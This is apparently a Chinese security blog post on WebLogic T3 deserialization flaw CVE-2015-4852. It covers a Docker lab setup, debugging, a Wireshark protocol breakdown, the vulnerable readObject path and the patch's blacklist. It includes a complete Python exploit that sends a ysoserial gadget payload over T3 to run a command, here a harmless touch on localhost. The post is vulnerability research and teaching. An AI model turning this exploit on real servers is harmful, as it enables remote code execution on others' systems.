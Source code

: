 # 环境搭建

环境搭建使用A-team 的weblogic漏洞环境项目https://github.com/QAX-A-Team/WeblogicEnvironment

关于weblogic的介绍还是建议看一下Ateam大哥的文章:

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704

里面的介绍还是挺详细的,远程调试则将文件导到物理机。然后导入idea

```bash
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/modules ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/wlserver/server/lib ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/coherence_3.7/lib ./coherence_3.7/lib
```

![image-20210820094728461](初探T3协议[CVE-2015-4852]/image-20210820094728461.png)

远程调试配置:

![image-20210820094812847](初探T3协议[CVE-2015-4852]/image-20210820094812847.png)

然后在虚拟机中运行exp,并在`weblogic.rjvm.InboundMsgAbbrev#readObject`中打断点,成功debug

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = './ysoserial.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections7" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

这里我更改了host之后并没有在物理机上运行,不知道是什么原因。

# T3协议分析

运行exp,使用wireshark抓包，设置过滤规则`tcp.port == 7001` ,追踪tcp流

![image-20210822105704579](初探T3协议[CVE-2015-4852]/image-20210822105704579.png)

可以看到上面先发送了我们的T3试探包,然后服务端返回了一些版本信息。接下上来就是我们的数据包

![image-20210822105824506](初探T3协议[CVE-2015-4852]/image-20210822105824506.png)

主要有以下几个部分组成：

![img](初探T3协议[CVE-2015-4852]/1993669-20201218164326263-1518550000.png)

在反序列化数据包中，`ac ed 00 05` 是反序列化标志，在 T3 协议中由于每个反序列化数据包前面都有 `fe 01 00 00` ，所以这里的标志相当于就是 `fe 01 00 00 ac ed 00 05`

![image-20210822110328219](初探T3协议[CVE-2015-4852]/image-20210822110328219.png)

再来看看我们的payload就能理解是如何构造的了

# 漏洞分析

这是一张weblogic反序列化的流程图

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。

![img](初探T3协议[CVE-2015-4852]/1993669-20201218162014099-612385399.png)

看到断点的位置，里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法

![image-20210822161833981](初探T3协议[CVE-2015-4852]/image-20210822161833981.png)

可以看到该方法继承于`ObjectInputStream`方法,而且重写了resolveClass方法

![image-20210822162150106](初探T3协议[CVE-2015-4852]/image-20210822162150106.png)

而这个resolveClass方法的作用是将类的序列化描述符加工成该类的class对象(通过下图的forName方法)。在shiro中就因为重写了`resolveClass`方法,导致我们的payload中无法使用`Transformer数组`

![image-20210822162712109](初探T3协议[CVE-2015-4852]/image-20210822162712109.png)

因为这里分析的是第一款T3漏洞,所以这里并没有在resolveClass方法中进行任何防护,而在后面的weblogic补丁中,会基于这个`resolveClass`去做反序列化漏洞的防御

![img](初探T3协议[CVE-2015-4852]/1993669-20201218162606221-1819411616.png)

# CVE-2015-4852修复

借用一下李三师傅的图

这里增加了一个黑名单判断![image-20210516222316535](初探T3协议[CVE-2015-4852]/20210516222328.png)

![image-20210516222453511](初探T3协议[CVE-2015-4852]/20210516222453.png)

# 参考

http://wjlshare.com/archives/1573

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704

https://github.com/QAX-A-Team/WeblogicEnvironment

https://www.cnblogs.com/nice0e3/p/14201884.html

http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/#%E5%8F%82%E8%80%83